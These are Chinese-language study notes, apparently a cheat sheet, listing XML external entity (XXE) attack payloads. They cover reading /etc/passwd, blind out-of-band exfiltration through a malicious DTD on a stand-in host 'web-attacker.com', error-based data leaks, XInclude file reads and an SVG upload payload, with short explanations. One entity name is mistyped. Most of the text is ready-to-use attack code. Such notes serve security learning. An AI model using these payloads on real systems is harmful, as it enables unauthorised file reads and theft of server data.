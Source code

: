 文件后缀：.dtd

攻击类型：

1. XXE检索文件

```xml-dtd
<!DOCTYPE foo [
<!ENTITY  xxe SYSTEM "file:///etc/passwd">
]>
<foo>
&xee;
</foo> //简单读取密码并返回       1
```

2. SSRF攻击
3. XXE盲注，发送敏感数据到恶意主机 (第二条语句是，动态声明)

```xml-dtd
请求修改
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
//让服务器下载恶意dtd文件并执行     
恶意主机配置
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

4. XXE盲注，通过错误消息返回数据 （第二条语句尝试拼接，当路径不存在时返回）

```xml-dtd
恶意主机配置
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///invalid/?x=%file;'>">
%eval;
%exfiltrate;
```

疑点：不采用动态声明的时候，报的错是参数非法，采用动态声明的时候，报的错是文件没找到，后面是信息

解答：采用动态声明，是为了能够使用%file;，如果不采用，那么%file；将会作为字符串直接带入请求，路径参数出现了%；所以报错参数非法；当采用动态声明，%file;的内容会替换掉，所以可以正常看到消息。注意，动态声明仅使用于外部DTD

5. XInclude攻击 适用于只能控制XML的一部分数据，无法定义DTD的情况  XInclude原是用于从子文档中构建出一个xml部分，然后粘贴到原XML文档，这里可以用于解决上述情况。 

   解释：第一个语句是定义xi命名空间，第二个选项是引用文档，如果不写parse="text"则默认解析为XML文档，将该文档的内容作为文本显示在XML中

``` xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

6. 通过文件上传执行XXE

   应用程序可能会允许用户上传一些XML格式文件，比如office的docx文档文件或是SVG图像文件，这些XML格式的文件可以称为XML外部实体注入的攻击点。

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> //通过SVG图片文件上传执行XML注入     

```
